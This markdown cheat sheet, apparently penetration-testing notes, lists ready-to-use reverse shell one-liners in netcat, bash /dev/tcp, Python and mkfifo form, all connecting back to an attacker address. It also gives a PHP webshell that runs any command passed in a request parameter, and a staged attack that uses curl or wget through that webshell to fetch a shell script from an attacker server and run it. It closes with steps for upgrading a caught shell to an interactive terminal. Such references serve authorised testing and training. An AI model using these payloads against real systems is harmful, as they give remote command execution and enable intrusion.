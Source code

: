 ```yaml
---
title: Reverse shell
description: Reverse and interactive shell cheatsheet.
---
```


# Reverse shell

- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

## Well-known reverse shells

```bash
# Listener
nc -lnvp 1234

# netcat
nc -e /bin/bash 10.0.0.1 1234

# bash
bash -i >& /dev/tcp/10.0.0.1/1234 0>&1

# python
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'

# netcat (openbsd)
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

# php webshell
<?php echo "<pre>" . system($_REQUEST["cmd"]) . "</pre>"; ?>
```

```bash
$ echo -e '#!/bin/bash\nbash -i >& /dev/tcp/10.0.0.1/1234 0>&1' > shell.sh
$ python3 -m http.server 8000

?cmd=curl+10.9.52.138:8000/shell.sh+-o+/tmp/shell.sh
or
?cmd=wget+10.9.52.138:8000/shell.sh+-O+/tmp/shell.sh

$ nc -lvnp 1234

?cmd=bash+/tmp/shell.sh
```

## Interative shell (upgrade your shell)

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'

export TERM=xterm

CTRL+Z
stty raw -echo; fg
```

```bash
# Particularly useful with Windows shells (to use up/down arrows)
rlwrap nc -lvnp <port>
```

```bash
# On our computer
$ stty -a
speed 38400 baud; rows 17; columns 240; line = 0;
[...]

# On the reverse shell
stty rows 17
stty cols 240
```
